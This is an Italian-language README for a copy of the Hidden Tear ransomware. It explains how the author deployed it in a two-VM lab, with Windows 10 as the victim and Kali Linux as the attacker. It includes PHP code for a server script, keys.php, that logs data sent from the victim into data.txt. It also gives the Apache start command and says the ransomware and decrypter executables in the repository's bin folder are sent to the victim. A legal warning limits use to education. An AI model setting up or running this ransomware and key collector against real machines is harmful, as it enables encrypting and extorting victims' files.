 Copia dello storico ransomeware open source:

         _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
                                                     
Per utilizzarlo mi sono servito di due macchine virtuali: una con windows 10 che fungeva da vittima e una con kali linux che faceva da attaccante.

A riga 40 del file ho aggiunto l'indirizzo IP della macchina con kali linux

Nella macchina con kali linux nella cartella var/www/html ho creato un file data.txt e un file keys.php, in quest'ultimo ho inserito questo codice:


```
 <?php
	$info = $_GET['info'];
	$file = fopen("data.txt", "a");
	fwrite($file, $info."". PHP_EOL);
	fclose($file);
	?>
         
```
 
 poi ho aperto un terminale nella stessa cartella e ho lanciato:
```
service apache2 start                                                                           
```

[Riferimento video](https://www.youtube.com/watch?v=ILlTB0-xT-k&t=387s)


Alla macchina 'vittima' ho inviato i file exe hidden tear e il decripter contenuti nella cartella bin
**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.

Anche se questo può essere utile per alcuni, ci sono rischi significativi. Può essere utilizzato solo per scopi educativi. Non usarlo come ransomware! Potresti finire in prigione con l'accusa di ostruzione alla giustizia, anche se sei innocente.
